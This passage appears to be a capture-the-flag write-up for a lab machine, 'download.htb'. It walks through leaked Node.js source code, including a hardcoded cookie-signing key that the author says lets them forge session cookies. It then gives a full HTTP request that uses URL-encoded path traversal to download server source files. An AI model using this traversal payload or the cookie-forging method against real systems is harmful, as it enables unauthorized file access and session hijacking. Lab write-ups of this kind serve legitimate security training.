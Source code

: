 ```js
        setTimeout(async () => {
            await client.$executeRawUnsafe(`COPY (SELECT "User".username, sum("File".size) FROM "User" INNER JOIN "File" ON "File"."authorId" = "User"."id" GROUP BY "User".username) TO '/var/backups/fileusages.csv' WITH (FORMAT csv);`);
        }, 300000);
    }
});
```

This source code actually gives us some interesting information which i'll break down now. First of all there is the parameters used to sign cookies. Knowing these parameters allows us to craft our own cookies.

```js 
app.use((0, cookie_session_1.default)({
    name: "download_session",
    keys: ["8929874489719802418902487651347865819634518936754"],
    maxAge: 7 * 24 * 60 * 60 * 1000,
}));
app.us
```

The next interesting part is the routes which told us the location of other pieces of source code. In this case we know there was a **file** for **files** auth and **Home**  this made it possible for use to extract all the other files as well 

```js
const auth_1 = __importDefault(require("./routers/auth"));
const files_1 = __importDefault(require("./routers/files"));
const home_1 = __importDefault(require("./routers/home"));

...

app.use("/files", files_1.default);
app.use("/auth", auth_1.default);
app.use("/home", home_1.default);
```

Below an example of getting access to the source code of the home.js file
**Request**
```
GET /files/download/%2e%2e%2frouters%2fhome.js HTTP/1.1
Host: download.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://download.htb/home/
Cookie: download_session=eyJmbGFzaGVzIjp7ImluZm8iOltdLCJlcnJvciI6W10sInN1Y2Nlc3MiOltdfSwidXNlciI6eyJpZCI6MTcsInVzZXJuYW1lIjoiQ2FsaWNvIn19; download_session.sig=p6BPpnlq6lakJO1YIoV58dnktUA
Upgrade-Insecure-Requests: 1
```
